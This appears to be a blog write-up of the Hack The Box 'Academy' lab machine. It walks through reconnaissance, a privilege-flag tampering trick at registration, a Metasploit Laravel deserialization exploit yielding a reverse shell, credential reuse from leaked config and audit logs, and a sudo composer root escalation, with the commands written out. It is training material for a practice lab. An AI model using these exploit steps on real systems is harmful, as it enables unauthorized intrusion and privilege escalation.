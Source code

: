 ```yaml
---
layout: post
title:  "Hack The Box - Academy Writeup"
image: 
  path: /assets/img/htb/HTB-Academy/Header.png
date:   2021-02-27 06:00:00
author: Justin
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  

Academy is an Easy level linux machine. Based on the creator and community statistics, we'll likely have a decent amount of enumeration to get through, while working heavily off of existing CVEs, against a realistic environment.  
![Statistics](/assets/img/htb/HTB-Academy/Statistics.png)

## Information Gathering

### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,33060 -sC -sV -oA Extracts/Academy 10.10.10.215`  
![Nmap](/assets/img/htb/HTB-Academy/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be an simple website on Apache v2.4.41.
* **Port 33060 - MYSQLX**: MySQL is a freely available open source Relational Database Management System. The X Protocol found here is supported by MySQL Shell, MySQL Connectors, and MySQL Router.

We'll also want to add Academy.htb to our hosts file.

### Academy Site
Navigating to the Academy site on port 80 reveals a very basic landing page and two links to Login.php and Register.php. We can attempt to enumerate additional pages using `gobuster` and a wordlist of commonly used resources.  
`>> gobuster dir -u academy.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php -t 100`  
![Gobuster](/assets/img/htb/HTB-Academy/Recon_Gobuster.png)  

The most promising result of the Gobuster scan is the discovery of an administrative area. Unfortunately, it appears to be behind a login. Let's move on to registering an account and see what we can find once we're authenticated.  
![Register](/assets/img/htb/HTB-Academy/Recon_Register.png)  

Interesting. Capturing the registration request with our `Burpsuite` proxy reveals that in addition to our username and password, there's a `roleid` defaulting to 0. It's possible this flag could differentiate a normal user from an admin, let's change that to a 1?  
![Admin](/assets/img/htb/HTB-Academy/Recon_Admin.png)  

Looks like we were right about the `roleid` and successfully created our own administrative account! Logging into the /admin.php page reveals some usernames (`cry0l1t3` and `mrb3n`), as well as another subdomain `dev-staging-01.academy.htb`. Let's add that to our host file and go there next.

### Dev-Staging-01
Navigating to the dev-staging area, we're shown a dashboard with a large amount of system configuration and application information. There's a lot to dig through, but we should be able to find something interesting to work with.  
![Admin](/assets/img/htb/HTB-Academy/Recon_DevStage.png)

## Foothold
[Laravel](https://laravel.com/) is a framework for building web applications in PHP. Searching Exploit.db leads us to the following [metasploit module](https://www.exploit-db.com/exploits/47129), for a deserialization attack leveraging the App_Key and gaining remote code execution. Based on the configuration findings in our Information Gathering stage, we should have all the pieces needed to make this work.  
```
>> msfconsole
>> use exploit/unix/http/laravel_token_unserialize_exec
>> set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
>> set RHOSTS academy.htb
>> set VHOST dev-staging-01.academy.htb
>> set LHOST tun0
```
![Reverse Shell](/assets/img/htb/HTB-Academy/Foothold_MSFConsole.png)  

### Upgrading our Shell
The initial shell we've got is clunky and not very easy to use. Let's upgrade it with the following commands:  
`>> python3 -c "import pty; pty.spawn('/bin/bash')"`  
`>> export TERM=xterm`

### Looking Around the Box
We appear to be connected as the www-data user, which doesnt have access to the user.txt flag. By checking through the users in the `/home` directory, we can see the flag belongs to `cry0l1t3`, an admin of the site.

## Lateral Movement 1
When we first landed in the box, we found ourself in the `/var/www/html/htb-academy-dev-01/public` directory. Digging around, we eventually find a hidden `.env` file containing much of the same information we already noted in the website. However, by looking in the equivalent file from the `/var/www/html/academy` directory, we discover a few changes; The most important of which is that the database password has been changed to `mySup3rP4s5w0rd!!`.

When users are asked to create a new password for something, it's very common for them to reuse a password from somewhere else. It's familiar to them, and easier to remember. Keeping that in mind, we attempt to authenticate with each of the users we discovered in the `/home` directory, successfully authenticating with our flag holder `cry0l1t3`.  
`>> ssh cry0l1t3@10.10.10.215`  
`>> mySup3rP4s5w0rd!!`

### User Flag
![User Flag](/assets/img/htb/HTB-Academy/User_Flag.png)  

## Lateral Movement 2
With our new user access we can continue to look around the box, checking areas we may not have had access to before. Whether running an automated enumeration script, or by digging through the box manually, we can eventually be led to system logs with more valuable secrets to use.  
`>> ausearch -c su`  
![Logs](/assets/img/htb/HTB-Academy/Lateral2_Logs.png)  

The data we found is currently in hex format, but decoding it reveals the text: `mrb3n_Ac@d3my!`. Lets see if it works for the mrb3n account:  
`>> su mrb3n`  
`>> mrb3n_Ac@d3my!`

## Privilege Escalation
One of the first enumeration commands to run as a new user is `sudo -l`. This allows us to list out the priviledged commands we can run, as long as we have the user's password.  
`>> sudo -l`  
`>> mrb3n_Ac@d3my!`  
![Sudo](/assets/img/htb/HTB-Academy/PrivEsc_Sudo.png)  

Referencing the [GTFOBins](https://gtfobins.github.io/gtfobins/composer/#sudo) page for Composer, we're shown the following escilation steps:  
`>> TF=$(mktemp -d)`  
`>> echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json`  
`>> sudo composer --working-dir=$TF run-script x`  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Academy/Root_Flag.png)  